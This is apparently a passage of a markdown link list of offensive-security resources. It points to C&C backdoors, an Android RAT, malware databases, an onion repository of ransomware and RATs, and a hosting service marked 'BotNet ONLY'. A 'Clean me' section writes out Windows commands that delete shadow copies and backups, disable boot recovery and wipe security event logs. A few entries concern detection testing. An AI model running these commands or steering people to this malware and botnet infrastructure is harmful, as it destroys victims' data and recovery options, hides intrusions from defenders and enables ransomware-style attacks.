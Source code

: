 	* ViCheck https://www.vicheck.ca/

## C&C
* [A fully featured backdoor that uses Gmail as a C&C server](https://github.com/byt3bl33d3r/gcat)
* Fully Featured Backdoor Telegram C&C: BrainDamage https://n0where.net/fully-featured-backdoor-telegram-cc-braindamage/ https://github.com/mehulj94/BrainDamage
* Tunneling C&C Over DNS: dnscat2. This tool is designed to create a command-and-control (C&C) channel over the DNS protocol, which is an effective tunnel out of almost every network. https://n0where.net/tunneling-cc-over-dns-dnscat2 [GitHub](https://github.com/iagox86/dnscat2)
* TLS C2 https://gist.github.com/caseysmithrc/a4c4748160ff9c782d8a86723dbc7334
* Active Directory as a C2 (Command & Control) https://akijosberryblog.wordpress.com/2018/03/17/active-directory-as-a-c2-command-control/

# Android
* AhMyth Android RAT is an Android Remote Administration Tool - http://www.kitploit.com/2017/07/ahmyth-android-rat-android-remote.html https://github.com/AhMyth/AhMyth-Android-RAT/releases
* Bypassing Android’s Network Security Configuration https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/november/bypassing-androids-network-security-configuration/

## References
* https://developer.android.com/training/articles/security-config.html?hl=en
* https://ibotpeaches.github.io/Apktool/
* https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/security/net/config
* https://malpedia.caad.fkie.fraunhofer.de/ Malpedia
* [malware.one is a binary substring searchable malware catalog containing terabytes of malicious code.](https://malware.one/index.php?action=login)
* APT & CyberCriminal Campaign Collection https://github.com/CyberMonitor/APT_CyberCriminal_Campagin_Collections

# Big package or Framework
* Small and highly portable detection tests : atomic-red-team https://github.com/redcanaryco/atomic-red-team
* Malwares :
	* [GitHub](https://malwares.github.io)
	* [Web Site](https://malwares.github.io/)
	* Database on [Mega](https://mega.nz/#F!IhFg2ZbI!9DgoYtpyPTPhw6b1veuTkg)
* Nice Repo ransomwares,RATs,Malwares,..etc https://mqnvhg6lht7lc3nc.onion/

# Clean me ...
* deletes all possible shadow copies on the system `C:\Windows\system32\cmd.exe /c c:\Windows\system32\vssadmin.exe delete shadows /all /quiet`
* deletes all windows backup `C:\Windows\system32\cmd.exe /c wbadmin.exe delete catalog -quiet`
* ensure that the Windows recovery console does not attempt to repair anything on the host `C:\Windows\system32\cmd.exe /c bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no`
* deletion of the System & Security windows event log `C:\Windows\system32\cmd.exe /c wevtutil.exe cl System` and `C:\Windows\system32\cmd.exe /c wevtutil.exe cl Security`

# Other
* [Build a Compiler Bomb](https://codegolf.stackexchange.com/questions/69189/build-a-compiler-bomb/69193#69193)

# Hosting
* https://access.clientleaf.ru/index.php/ BotNet ONLY
